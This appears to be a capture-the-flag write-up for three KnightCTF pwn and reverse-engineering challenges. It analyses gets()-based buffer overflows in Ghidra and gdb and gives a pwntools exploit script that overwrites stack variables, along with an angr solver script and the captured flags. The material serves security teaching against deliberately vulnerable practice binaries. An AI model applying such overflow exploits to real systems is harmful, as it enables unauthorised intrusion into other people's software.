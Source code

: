 ```yaml
---
title: KnightCTF pwn challenges writeup
author: jopraveen
date: 2022-01-22
categories: [CTFtime,KinghtCTF]
tags: [pwn,rev]
---
```


## What's your name [50 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA

#### Main function
![disas-main](https://i.imgur.com/zmeG6el.png)
- gets() is vulnerable to buffer overflow
- in line 14 they're checking the value 100 is still in that variable or not
- If we overwrite that variable then the if condition will be statisfied means the value 100 will be overwritten
- So we can get the flag
- Ok how we can do that?
  - char **user_input** array can store upto 60 bytes
  - in memory after the user_input there will be the value of the integer (100)
  - so if we give more than 60 bytes it'll overwrite that integer
  - let's try that

![](https://i.imgur.com/Ymq1znG.png)
- Now let's try this at remote server

![](https://i.imgur.com/LPrmzMh.png)
- Nice we got our flag `KCTF{bAbY_bUfF3r_0v3Rf1Ow}`

------------

## What's your name 2 [100 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA

#### Main function
- In ghidra we can reaname a variable by pressing `L` or right click it and do `rename variable`
- And we can add comments too (by pressing `;` semicolon in that particular line)
- That's what I did here, so don't confuse coz  it's different.. It's fully for your understanding purpose

![](https://i.imgur.com/TPBHQGG.png)

- I think I explained in the picture so it's enough to understand the vulnerablity
, lets skip to the exploitation part
- In line 22 there are  two condition checks
- One with **0x5445454c** , anther one with **0x534b544e**
- So we need to overwrite those values
- First let's find in which offset they are located
- Let's open it with gdb and disassemble the main function

![](https://i.imgur.com/FN99TjA.png)
- Let's set breakpoints in both compare instructions

![](https://i.imgur.com/QRXxeAW.png)
- run it. I'm giving a pattern here as input

![](https://i.imgur.com/Wo7xzUi.png)
- We hit our first break point, let see what's in **eax** register

![](https://i.imgur.com/UUpEc4w.png)
- So we need to place **0x5445454c** at 76th position
- Before going to next breakpoint we need to set this register value as **0x5445454c**
- `set $eax=0x5445454c` and continue
- Then only it jumps to next comparison, otherwise it directly exits
- Now we hit our 2nd breakpoint, let's see what's in **eax** register

![](https://i.imgur.com/DR0fvjb.png)
- So we need to place **0x534b544e** at 72nd position
- Fine now let's write our exploit
- Don't forget we need to convert these values into little endian format

#### Exploit script
```python
#!/usr/bin/python3
from pwn import *
p = process('whats_your_name_two')

payload = b'A'*72 # fill 72 bytes with junk

''' 
>>> from pwn import *
>>> p64(0x534b544e)
b'NTKS\x00\x00\x00\x00'
our second argument starting at 76th position, 
so let's leave the nullbytes and take only "NTKS"
'''
payload += b'NTKS'
payload += p64(0x5445454c) # here we can send with null bytes, no problems

p.sendline(payload)
p.interactive()
```
- Nice it works, let's send this in remote server

![](https://i.imgur.com/PU4zjdR.png)
- Cool we got our flag `KCTF{bUfF3r_0v3Rf1Ow_i5_fUn_r1Gh7}`

-------

## Hackers Vault [100 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA
- I was concentrating on other challenge so I automated this challenge with angr

#### angr script
```python
#!/usr/bin/python3
import angr
import claripy
import sys

good_address = 0x0040124a
bad_address = 0x00401288
base_addr = 0x00400000
flag_length = 6
binary = './hackers_vault'

proj=angr.Project(binary,load_options={'auto_load_libs':False},main_opts={'base_addr':base_addr})
flag=[claripy.BVS('flag%i'%i,8) for i in range(flag_length)]

flag_concat=claripy.Concat(*flag + [claripy.BVV("\n")])
state=proj.factory.entry_state(stdin=flag_concat) 
for i in flag: 
    state.solver.add(i>=32)
    state.solver.add(i<=127)
simgr=proj.factory.simgr(state)
simgr.explore(find=good_address,avoid=bad_address)
if simgr.found:
    simulation=simgr.found[0]
    print(simulation.posix.dumps(sys.stdin.fileno()))
else:
    print("FAILURE")
```

- I know it's too much for this
- But it works, that's what we need

![](https://i.imgur.com/J5rD8Q7.png)
- IN REMOTE

![](https://i.imgur.com/VvuvDAY.png)
- flag `KCTF{b1NaRy_3xOpL0iTaT1On_r0cK5}`
- That's all for this category, easy pwns 😛
    
    
    
    
    